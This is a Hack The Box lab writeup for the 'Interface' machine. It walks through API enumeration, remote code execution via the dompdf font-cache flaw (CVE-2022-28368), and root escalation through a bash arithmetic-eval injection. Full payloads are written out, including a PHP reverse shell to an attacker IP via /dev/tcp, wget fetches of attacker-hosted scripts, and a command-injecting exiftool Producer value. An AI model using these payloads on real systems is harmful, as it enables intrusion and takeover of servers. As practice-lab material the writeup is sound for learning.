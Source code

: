 ```yaml
---
title: "Hack The Box - Interface [Medium]"
publishedAt: 2023-08-20
description: "HTB Writeup"
isPublish: true
---
```


The most important in this machine would be the enumeration, it exploits vulnerabilities like:
- [CVE-2022-28368](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)
- [Executing files with sudo privileges](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

## Recon 

I started with just the website `interface.htb` where there isn't much going on, from what I gathered I saw that it was a Next.js application, but the interesting thing there were the headers.

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:44:41 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
Content-Length: 6359
```

I saw the CSP header which has a bunch of websites in, and frankly I didn't spot the subdomain at first, but that was the next pivoting point `http://prd.m.rendering-api.interface.htb`.

Going to the subdomain, you are greeted by a single `File not Found` text with a 404 status. Here comes the tricky part, the usual reconning using `ffuf,feroxbuster` and such, are ignoring the 404 status over the things it finds, and it's tricky to set something that is working for this particular case.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u http://prd.m.rendering-api.interface.htb/FUZZ -mc all -fs 0
```

I found several endpoints that are returning more than just 404.

```
api/experiments/configurations [Status: 404, Size: 50, Words: 3, Lines: 1...
api/experiments         [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
api                     [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
vendor                  [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 
```

Using `curl`, I found some API responses over those endpoints.

```http
$ curl -i http://prd.m.rendering-api.interface.htb/api/                                  
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:53:49 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}
```

Then I began enumerating the API, by filtering the 404 using a GET request. 

The tricky thing is that you must try to use all the methods `GET,POST,PUT,DELETE` on everything. That could have been easier with `feroxbuster` but the thing is that on the `feroxbuster` tool there isn't an `-mc all` option which matches all the response codes and I had to do it manually with `ffuf`.

This is what I've used to find another pivot point.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/big.txt -u http://prd.m.rendering-api.interface.htb/api/FUZZ -mc all -fs 50 -X POST
...
html2pdf                [Status: 422, Size: 36, Words: 2, Lines: 1...
```

I found other stuff like `composer,dumpdf` before that and I started to search some exploits for `dumpdf` since I thought that would be the next pivot point and found this PoC of an exploit: https://github.com/positive-security/dompdf-rce.

The next thing to figure out was how to pass the file to that endpoint. While I tried to just send the file without any parameters, it returns `missing parameters` so I had to explore the `dompdf` implementations. The parameters that `dompdf` uses are just two. 

```php
$dompdf->loadHtml($html); 
$dompdf->setPaper('A4', 'landscape');
$dompdf->render();
```

I know that this is an API, so it must accept some JSON, so I crafted some random payload which I admit I got really lucky.

```json
{
	"html": "<h1>test</h1>",
	"paper": "A4"
}
```

Because the response was `200 OK` and a binary with the attached PDF.

## Exploiting the `dumpdf RCE`

The `dumpdf` is apparently caching the fonts that it processes during the conversion of HTML to PDF. It stores them under `/vendor/dompdf/dompdf/lib/fonts/` folder. Earlier in my discovery I enumerated another possible pivoting point that however gave 403, which was `/vendor/dompdf/dompdf` so following the PoC I've crafted the following payload.

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 47

{
	"html": "<link rel=stylesheet href='http://10.10.14.73:8000/syl.css'>",
	"paper": "A4"
}
```

```
# syl.css
@font-face {
    font-family:'syl';
    src:url('http://10.10.14.73:8000/syl.php');
    font-weight:'normal';
    font-style:'normal';
}
```

```
# syl.php, this is a legit font just with 1 line PHP on the bottom
<LEGIT FONT BINARY DATA>
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.73/4444 0>&1'"); ?>
```

After that I execute the request, the server would try to get the CSS and the font from my server, and it would cache the font into the specified folder and after executing the request. I saw that it does exactly that:

```
# My Server logs
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.css HTTP/1.0" 200 -
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.php HTTP/1.0" 200 -
```

That means that we have our 'font' already cached on the server under the folder `/vendor/dompdf/dompdf/lib/fonts/` however what would be the name, because trying to execute `syl.php` wasn't yielding results. 

To figure that out I thought it might be several things, `md5(file), md5(url of the font), some_hashing_algo(file/url of the font)` so I had to research how it saves the fonts. Fortunately, the PoC gives us a clue of how is this working. The font file there is named `exploitfont_normal_3f83639933428d70e74a061f39009622.php` and I brute forced my way out of this by trying `syl_normal_` and `md5(file), md5(url of the font)` and the URL of the font was the right one, so I got a reverse shell with that. 

```
$ curl -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/syl_normal_ee17d95350fea4e27875b56170439107.php
...
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.73] from (UNKNOWN) [10.129.20.249] 60822
pwd
/var/www/api/vendor/dompdf/dompdf/lib/fonts
```

With that and using `linpeas.sh` I could read the first flag which is located in `/home/dev/user.txt`.

## Gaining Root

This was a tricky one, and I got some help with it since I couldn't find how. I only found a script that was cleaning some cache files with the tag `Producer: dompdf` in the `/tmp` folder. The script is located here: `/usr/local/sbin/cleancache.sh`. I was pretty sure that this is the root pivot point, but I didn't know how to exploit it. 

I joined some discussions and one of the users mentioned the `# Bash’s white collar eval: [[ $var -eq 42 ]] runs arbitrary code too` - https://www.vidarholen.net/contents/blog/?p=716

I didn't know that you could do that, but after reading the article it was clear what I should do.

```
$ cd /tmp
$ mkdir syl
$ cd syl && wget http://10.10.14.73:8000/admin.sh
$ chmod +x ./admin.sh
$ wget http://10.10.14.73:8000/test.pdf
$ exiftool -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
< -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
    1 image files updated
$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh
chmod: changing permissions of '/bin/bash': Operation not permitted
chmod: changing permissions of '/bin/bash': Operation not permitted
$ /bin/bash -p
bash-4.4# cat /root/root.txt
```
